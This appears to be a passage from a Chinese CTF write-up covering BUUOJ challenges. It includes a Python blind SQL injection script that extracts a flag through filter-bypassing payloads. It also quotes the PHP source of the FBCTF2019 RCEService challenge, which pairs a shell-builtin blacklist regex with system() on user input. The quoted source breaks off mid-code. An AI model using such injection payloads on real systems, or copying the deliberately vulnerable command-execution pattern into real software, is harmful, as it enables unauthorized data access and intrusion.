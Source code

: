 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209140859724.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209140859604.png)

## [WUSTCTF2020]颜值成绩查询

简单 sql 注入

```python
import time
import requests

url = 'http://4970b328-dd5a-492d-bd32-f084c1f25f13.node4.buuoj.cn:81/index.php?stunum=1'

dicts = ',{}-0123456789abcdefgl'

flag = ''

for i in range(1,100):
    for s in dicts:
        time.sleep(0.5)
        payload = '/**/and/**/ascii(substr((select/**/group_concat(flag,value)/**/from/**/flag),{},1))={}'.format(i,ord(s))
        res = requests.get(url + payload, timeout=30)
        if 'admin' in res.text:
            flag += s
            print(flag)
```

## [FBCTF2019]RCEService

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209141911939.png)

一开始 cmd 怎么传也不行, 看了 wp 才知道 get 需要这样传参

```
?cmd={"cmd":"ls"}
```

题目源码找不出来, 但是看原题的 wp 是有源码的, 不知道什么情况...

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
```